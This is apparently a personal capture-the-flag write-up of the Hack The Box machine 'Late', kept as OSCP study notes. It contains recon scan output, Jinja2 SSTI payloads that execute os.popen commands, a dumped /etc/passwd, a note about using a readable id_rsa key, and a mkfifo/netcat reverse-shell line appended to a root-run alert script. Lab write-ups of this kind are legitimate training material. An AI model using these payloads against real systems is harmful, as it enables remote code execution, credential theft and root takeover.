






# Late

Name: Late 
Date: 31/07/2022
Difficulty: Easy
Description:  
Better Description: Image upload vuln from hell for those without patience
Goals:  OSCP Prep
Learnt: Courier is great font as is parsable for image scanners

## Recon

```bash
ping -c 3 10.129.227.134
PING 10.129.227.134 (10.129.227.134) 56(84) bytes of data.
64 bytes from 10.129.227.134: icmp_seq=1 ttl=63 time=49.2 ms
64 bytes from 10.129.227.134: icmp_seq=2 ttl=63 time=47.1 ms
64 bytes from 10.129.227.134: icmp_seq=3 ttl=63 time=46.0 ms

--- 10.129.227.134 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 45.993/47.419/49.184/1.324 ms

nmap -F 10.129.227.134              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-04 08:19 BST
Nmap scan report for 10.129.227.134
Host is up (0.045s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds

nmap -sC -sV -T 4 -p- 10.129.227.134
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-04 08:19 BST
Nmap scan report for 10.129.227.134
Host is up (0.050s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.88 seconds

nuclei -u http://10.129.227.134 -me late-nuclei      

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   2.6.9

                projectdiscovery.io

[WRN] Use with caution. You are responsible for your actions.
[WRN] Developers assume no liability and are not responsible for any misuse or damage.
[INF] Using Nuclei Engine 2.6.9 (latest)
[INF] Using Nuclei Templates 8.9.8 (latest)
[INF] Templates added in last update: 27
[INF] Templates loaded for scan: 3241
[INF] Templates clustered: 555 (Reduced 512 HTTP Requests)
[2022-05-04 08:28:49] [nginx-version] [http] [info] http://10.129.227.134 [nginx/1.14.0 (Ubuntu)]
[2022-05-04 08:28:50] [tech-detect:font-awesome] [http] [info] http://10.129.227.134
[2022-05-04 08:28:50] [tech-detect:bootstrap] [http] [info] http://10.129.227.134
[2022-05-04 08:28:50] [tech-detect:google-font-api] [http] [info] http://10.129.227.134
[2022-05-04 08:28:50] [tech-detect:nginx] [http] [info] http://10.129.227.134
[2022-05-04 08:28:51] [CVE-2018-15473] [network] [medium] 10.129.227.134:22 [SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.6]
[INF] Using Interactsh Server: oast.fun
[2022-05-04 08:28:57] [waf-detect:nginxgeneric] [http] [info] http://10.129.227.134/
[2022-05-04 08:28:57] [http-missing-security-headers:access-control-allow-origin] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:access-control-expose-headers] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:access-control-allow-methods] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:strict-transport-security] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:content-security-policy] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:x-content-type-options] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:referrer-policy] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:clear-site-data] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:access-control-max-age] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:permission-policy] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:x-frame-options] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://10.129.227.134
[2022-05-04 08:28:57] [http-missing-security-headers:access-control-allow-credentials] [http] [info] http://10.129.227.134

nikto -h 10.129.227.134
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.227.134
+ Target Hostname:    10.129.227.134
+ Target Port:        80
+ Start Time:         2022-05-04 08:19:52 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ 7916 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2022-05-04 08:27:03 (GMT1) (431 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

 gobuster dir -u http://10.129.227.134/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.227.134/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/04 08:33:34 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 194] [--> http://10.129.227.134/assets/]
                                                                                   
===============================================================
2022/05/04 08:53:12 Finished
===============================================================
```

## http enumeration


```
Subdomain: http://images.late.htb/; 
```


Start trying to find the correct file extension to bypass any filters.
A nice copy to current directory command that I am bruteforcing back into my memory:
```bash
cp -r /usr/share/webshells/php/php-reverse-shell.php .
```
```php
Error occured while processing the image: cannot identify image file '/home/svc_acc/app/uploads/monkey.php.jpg1853'
```
We have some exposure to the file system and a service account.
I grepped old ctfs and I got the extensions the wrong way round, but I just got a invalid extension.
I tried a drawing a picture and adding a python reverse shell, but just got the same error. 

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

I stumbled ofcross a fake write up that made me look back a THM room about SSTI.

.png format is excepted, but my payload return only p tags empty so there might be filtering or I should have uplaoded one at a time.
 
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

```

Walk away from this box for a couple a weeks, went to the forums which was a buzz [forum](https://forum.hackthebox.com/t/official-late-discussion/256022/264)


I took some of this advice and combined it with Courier 36 size font created test.png



And..

 

So tried various commands to enumerate the box a bit:


```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
```

I then `cat /home/svc_acc/user.txt` for the first flag; tried the same for root.txt just incase some part of the parser had higher kernel privellege by mistake before tried for a shell.
This does not work, but `svc_acc` has an `id_rsa` you can read and use to ssh into the box. 




Upload script - you need pspsy64.



Enumerating Network connections:


Reviewing pspy64 and returning to this box: pid 1721 is sendmail: MTA: accepting connections:

Checking the /etc/mail/sendmail.conf:


So potentially hijacking the mailing to reverse shell as root somehow.

chattr changes the file attributes of /usr/local/sbin/ssh-alert.sh from -a remove append writing and then +a for append writing mode. 

```bash
echo 'nc -lvnp 4444' | tee -a /usr/local/sbin/ssh-alert.sh
```
I was to tired after a long week so this began a walkthough. Still feel good about getting this far. I watched the Ippsec video to complete the last of this. The pspy enumeration was great idea, but I over 

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f' >> /usr/local/sbin/ssh-alert.sh
```

